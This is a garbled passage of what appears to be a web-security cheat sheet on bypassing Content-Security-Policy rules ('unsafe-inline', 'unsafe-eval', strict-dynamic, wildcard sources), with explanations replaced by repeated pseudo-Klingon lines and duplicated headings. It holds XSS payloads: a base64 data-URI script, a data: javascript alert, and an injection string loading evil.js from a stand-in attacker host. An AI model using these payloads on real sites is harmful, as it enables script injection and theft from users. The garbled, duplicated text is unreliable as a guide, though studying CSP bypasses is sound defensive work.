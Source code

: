 
## Unsafe CSP Rules

### 'unsafe-inline'
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
#### self + 'unsafe-inline' via Iframes

{% content-ref url="csp-bypass-self-+-unsafe-inline-with-iframes.md" %}
[csp-bypass-self-+-unsafe-inline-with-iframes.md](csp-bypass-self-+-unsafe-inline-with-iframes.md)
{% endcontent-ref %}

### 'unsafe-eval' (Klingon translation)

#### self + 'unsafe-inline' via Iframes

{% content-ref url="csp-bypass-self-+-unsafe-inline-with-iframes.md" %}
[csp-bypass-self-+-unsafe-inline-with-iframes.md](csp-bypass-self-+-unsafe-inline-with-iframes.md)
{% endcontent-ref %}

### 'unsafe-eval' (Klingon translation)
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
**tlhIngan Hol Translation:**

**Qapla'!**

**tlhIngan Hol Translation:**

**Qapla'!**
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
### strict-dynamic

**QaHvIneHbe'** **JS code** **tag script** **DOM** **new script tag** **allowed** **created** **because** **allowed script** **executed** **be allowed**.

### Wildcard (\*)
```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
**tlhIngan Hol Translation:**

**Qapla'!**

**tlhIngan Hol Translation:**

**Qapla'!**
```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
### qo' vItlhutlh
